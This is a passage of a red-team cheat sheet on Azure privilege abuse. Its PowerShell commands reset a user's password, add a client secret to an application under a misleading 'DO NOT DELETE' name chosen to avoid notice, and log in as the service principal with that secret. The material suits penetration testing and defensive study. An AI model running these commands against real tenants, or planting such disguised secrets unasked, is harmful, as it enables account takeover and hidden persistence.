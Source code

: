 
## Privileged Roles & Privileges
### Reset Password
- Requires Role: Helpdesk Administrator, Authentication Administrator, User Administrator or Password admin
- https://posts.specterops.io/azure-privilege-escalation-via-service-principal-abuse-210ae2be2a5

![image](https://github.com/0xJs/RedTeaming_CheatSheet/assets/43987245/6be97cfc-2480-48a7-a60c-355f2cbe4d46)

```
$Password = '<NEW PASSWORD>'

$PasswordProfile = @{
	forceChangePasswordNextSignIn = $false
	password = $Password
}

Update-MgUser -UserId <USER ID / UPN> -PasswordProfile $PasswordProfile -Verbose
```

### Add client secret to application
- Requires role: Application Administrator

#### Check application id
- Note down APP id

```
Get-MgApplication -ApplicationId <OBJECT ID>
```

#### Add client secret
```
$PasswordCred = @{
	displayName = 'Added by Azure Service Bus - DO NOT DELETE'
	endDateTime = (Get-Date).AddMonths(6)
}

$data = Add-MgApplicationPassword -ApplicationId <OBJECT ID> -PasswordCredential $PasswordCred
$data

$data.SecretText
```

#### Authenticate
```
$password = ConvertTo-SecureString '<SecretText>' -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<APP ID>', $password)

Connect-AzAccount -ServicePrincipal -Credential $creds -Tenant <ID>

Connect-MgGraph -ClientSecretCredential $creds -TenantId <ID>
```
